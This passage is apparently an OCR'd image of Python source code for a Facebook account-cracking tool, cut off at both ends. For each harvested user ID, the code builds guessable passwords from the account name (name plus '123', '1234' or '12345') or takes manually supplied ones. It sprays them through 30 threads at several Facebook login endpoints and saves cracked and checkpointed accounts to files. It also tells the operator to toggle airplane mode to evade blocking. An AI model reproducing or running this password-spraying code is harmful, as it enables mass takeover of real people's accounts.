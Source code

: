         print(" [+] CP results are saved in : CP/%s.txt\n"%(tanggal))
        print(" [!] if no result turn on airplane mode 5 seconds\n")
        for user in id:
          uid, name = user.split("<=>")
          if len(name)>=6:
            pwx = [ name+"123", name+"1234", name+"12345" ]
          elif len(name) == 3 or len(name) == 4 or len(name) == 5:
            pwx = [ name+"123", name+"1234", name+"12345" ]
          else:
            pwx = [ name+"123", name+"1234", name+"12345" ]
          coeg.submit(crack, uid, pwx, "https://free.facebook.com")
      exit("\n\n [#] crack complete...")
  elif method == "3":
    ask = raw_input(" [?] use manual password? y/n: ")
    if ask == "y":
      with ThreadPoolExecutor(max_workers=30) as coeg:
        print("\n [*] pass example: 102030, 556677, 786786")
        asu = raw_input(" [?] set pass : ").split(",")
        if len(asu) =="":
          exit(" [!] don't be empty")
        print("\n [+] OK results are saved in : OK/%s.txt"%(tanggal))
        print(" [+] CP results are saved in : CP/%s.txt\n"%(tanggal))
        print(" [!] if no result turn on airplane mode 5 seconds\n")
        for user in id:
          uid, name = user.split("<=>")
          coeg.submit(crack, uid, asu, "https://mbasic.facebook.com")
      exit("\n\n [#] crack complete...")
    elif ask == "n":
      with ThreadPoolExecutor(max_workers=30) as coeg:
        print("\n [+] OK results are saved in : OK/%s.txt"%(tanggal))
        print(" [+] CP results are saved in : CP/%s.txt\n"%(tanggal))
        print(" [!] if no result turn on airplane mode 5 seconds\n")
        for user in id:
          uid, name = user.split("<=>")
          if len(name)>=6:
            pwx = [ name+"123", name+"1234", name+"12345" ]
          elif len(name) == 3 or len(name) == 4 or len(name) == 5:
            pwx = [ name+"123", name+"1234", name+"12345" ]
          else:
            pwx = [ name+"123", name+"1234", name+"12345" ]
          coeg.submit(crack, uid, pwx, "https://mbasic.facebook.com")
      exit("\n\n [#] crack complete...")
  elif method == "4":
    ask = raw_input(" [?] use manual password? y/n: ")
    if ask == "y":
      with ThreadPoolExecutor(max_workers=30) as coeg:
        print("\n [*] pass example: 102030, 556677, 786786")
        asu = raw_input(" [?] set pass : ").split(",")
        if len(asu) =="":
          exit(" [!] don't be empty")
        print("\n [+] OK results are saved in : OK/%s.txt"%(tanggal))
        print(" [+] CP results are saved in : CP/%s.txt\n"%(tanggal))
        print(" [!] if no result turn on airplane mode 5 seconds\n")
        for user in id:
          uid, name = user.split("<=>")
          coeg.submit(crack, uid, asu, "https://m.facebook.com")
      exit("\n\n [#] crack complete...")
    elif ask == "n":
      with ThreadPoolExecutor(max_workers=30) as coeg:
        print("\n [+] OK results are saved in : OK/%s.txt"%(tanggal))
        print(" [+] CP results are saved in : CP/%s.txt\n"%(tanggal))
        print(" [!] if no result turn on airplane mode 5 seconds\n")
        for user in id:
          uid, name = user.split("<=>")